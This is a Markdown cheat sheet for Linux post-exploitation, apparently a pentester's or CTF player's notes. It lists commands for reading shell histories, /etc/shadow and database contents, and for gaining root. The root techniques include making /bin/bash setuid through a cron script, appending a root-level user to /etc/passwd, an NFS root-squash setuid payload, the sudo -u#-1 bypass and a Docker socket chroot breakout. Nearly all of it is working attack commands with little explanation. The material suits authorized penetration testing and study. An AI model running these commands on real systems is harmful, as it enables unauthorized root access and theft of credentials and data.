 ## Enumeration

### Check user command history
won't normally be much here but ALWAYS check

cat ~/.bash_history
cat ~/.zsh_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history

### Getting system distribution and version

> cat /etc/*-release

### Get kernel version

```
cat /proc/version   
uname -a
```


-> Get DNS resolver and hosts mapped to an IP

cat /etc/resolv.conf
cat /etc/hosts

-> Get system user, group and password information

cat /etc/passwd
cat /etc/shadow

Extracting database information
PostgreSQL

-> psql terminal as postgres user

su postgres
psql

-> list the databases

\list

-> select the database

\c <database>

-> list the tables

\d

-> dump

select * from <table>;

-> read files

CREATE TABLE demo(t text);
COPY demo from '<filename>';
SELECT * FROM demo;

SQLite

-> access database

sqlite3 <database.db>

-> list the tables

.tables

-> dump

select * from <table>;

MySQL

mysql -u root -h localhost -p

-> list the databases

show databases;

-> select the database

use <database>;

-> list the tables

show tables;

-> dump

SELECT * FROM <table>;

Other Tips

-> Perform code review on web server files (/var/www/html); -> Check log files for credentials;
Privilege Escalation
Crontab [PrivEsc]

-> Enumeration

cat /var/log/cron.log                                                                                                                                              
cat /etc/crontab

-> Exploitation

echo "chmod +s /bin/bash" >> script.sh

SUID [PrivEsc]

-> Enumeration

find / -perm -u=s -type f 2>/dev/null

or

id
find / -perm -u=s -type f -group <group> 2>/dev/null

-> Exploitation
https://gtfobins.github.io/
Capabilities [PrivEsc]

-> Enumeration

getcap -r / 2>/dev/null

-> Exploitation
https://gtfobins.github.io/
Binary with Sudo [PrivEsc]

sudo -l

or

cat /etc/sudoers

-> Exploitation
https://gtfobins.github.io/
Run commands as another user with permission through sudo [PrivEsc]

sudo -u <username> <command>

Weak File Permissions / Passwd Writabble [PrivEsc]

-> Enumeration

ls -la /etc/passwd
ls -la /etc/shadow

-> Exploitation

echo "user:$(openssl passwd password123):0:0:root:/root:/usr/bin/bash" >> /etc/passwd

NFS Root Squashing

-> Detection - VM Owned

cat /etc/exports

-> Viewing nfs directories with access - Attacker VM

showmount -e <ip>

-> Get nfs version - Attacker VM

rpcinfo <ip>

-> Mount - Attacker VM

mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1

-> Creating and compiling file for privesc - Attacker VM

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x

-> Exploitation - VM Owned

/tmp/x
id

sudo < v1.28 - @sickrov [PrivEsc]

sudo -u#-1 /bin/bash

Docker Breakout [PrivEsc]

-> Search the socket

find / -name docker.sock 2>/dev/null

-> list images

docker images

-> Exploitation

docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash

Linux Enumeration Tools [PrivEsc]

-> Linpeas

./linpeas.sh

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> pspy (unprivileged Linux process snooping)

./pspy64

https://github.com/DominicBreuker/pspy

-> linux-exploit-suggester

./linux-exploit-suggester.sh

or

./linux-exploit-suiggester.sh --uname <uname-string>

https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check

./unix-privesc-check

https://pentestmonkey.net/tools/audit/unix-privesc-check